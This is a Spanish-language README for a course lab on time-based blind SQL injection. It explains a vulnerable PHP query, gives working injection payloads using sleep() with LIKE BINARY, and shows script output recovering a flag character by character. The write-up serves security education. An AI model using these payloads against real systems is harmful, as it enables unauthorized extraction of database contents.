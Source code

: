 # blind-sql
Script de Python para lanzar una inyección ciega de SQL (Auditoría).

## Introducción
En la práctica primera de la asignatura se nos propone recuperar las flags de una base de datos. Sin embargo, solo tenemos acceso a una pantalla que indica si la query terminó con éxito o no.

Esto es lo que definimos como una blind-SQL, donde sabemos que podemos atacar la base de datos, pero no podemos recuperar datos de forma directa, por lo que solo nos queda tantearlos.

## Vulnerabilidad
Sabemos que la sentenica de SQL vulnerable es algo similar a la siguiente (PHP):
```php
$query = "SELECT flag from x WHERE y = $input";
```
Esto permite que podamos encadenar comandos de SQL después. Si lo encadenamos a una condición que dispare una espera, veremos que las respuestas del servidor tardan más tiempo dependiendo 
del éxito de la consulta. Podemos ver algunos ejemplos en este [repositorio de payloads](https://github.com/payloadbox/sql-injection-payload-list).

La siguiente payload es un ejemplo en el repositorio de [Blisqy](https://github.com/JohnTroony/Blisqy), y vemos que si la consulta resuelve en true, podemos modular el tiempo 
de respuesta de la petición.
```python
sqli = "' or if((*sql*),sleep(*time*),0) and '1'='1"
```
Si encadenamos esto a la sentencia `LIKE` de [SQL](https://stackoverflow.com/questions/14908142/sql-like-search-string-starts-with), podemos determinar con qué caracter empieza una flag.
El siguiente ejemplo recupera de la base de datos todas las entradas que empiecen por v:
```sql
SELECT * from flag WHERE (flag LIKE 'v%');
```

Por último, debemos añadir la palabra clave `BINARY` como [truco](https://www.scaler.com/topics/is-sql-case-sensitive/) para distinguir entre mayúsuclas y minúsculas (case-sensitive), 
ya que el campo por defecto NO lo es (varchar).

```sql
SELECT * from flag WHERE (flag LIKE BINARY 'v%');
```

## Payload
Si juntamos todos los ingredientes que acabamos de mencionar y nos aprovechamos de una flag conocida dentro de la base de datos, podemos terminar de probar la payload.

```sql
1 or if((flag LIKE BINARY 'vamosNano%'),sleep(5),0);
```
En este caso, añado el `1` al inicio para que cuadre con la sentencia original (`where id = 1`).

## Automatización
El siguiente paso es automatizar el proceso para que la búsqueda ciega vaya probando con todos los caracteres ASCII.

El actual estado del script es muy básico, ya que solo comprueba el primer camino que encuentra. Habría que sofisticarlo para que lleve un registro de los flags localizados y 
siga explorando por distintas ramas.

## Resultado
El resultado del script es un éxito, encuentra la flag al completo, y acierta con las mayúsculas en poco tiempo. El mayor de los retrasos es fruto del propio `sleep` de la inyección.
```bash
➜  flag3 py blind-injection.py
[0] The flag is: S
[1] The flag is: SW
[2] The flag is: SW5
[3] The flag is: SW5G
[4] The flag is: SW5GZ
[5] The flag is: SW5GZX
[6] The flag is: SW5GZXJ
[7] The flag is: SW5GZXJu
[8] The flag is: SW5GZXJuY
[9] The flag is: SW5GZXJuYW
[10] The flag is: SW5GZXJuYW5
[11] The flag is: SW5GZXJuYW5k
[12] The flag is: SW5GZXJuYW5kb
[13] The flag is: SW5GZXJuYW5kb1
[14] The flag is: SW5GZXJuYW5kb1d
[15] The flag is: SW5GZXJuYW5kb1dl
[16] The flag is: SW5GZXJuYW5kb1dlV
[17] The flag is: SW5GZXJuYW5kb1dlVH
[18] The flag is: SW5GZXJuYW5kb1dlVHJ
[19] The flag is: SW5GZXJuYW5kb1dlVHJ1
[20] The flag is: SW5GZXJuYW5kb1dlVHJ1c
[21] The flag is: SW5GZXJuYW5kb1dlVHJ1c3
[22] The flag is: SW5GZXJuYW5kb1dlVHJ1c3Q
[23] The flag is: SW5GZXJuYW5kb1dlVHJ1c3Q=
```
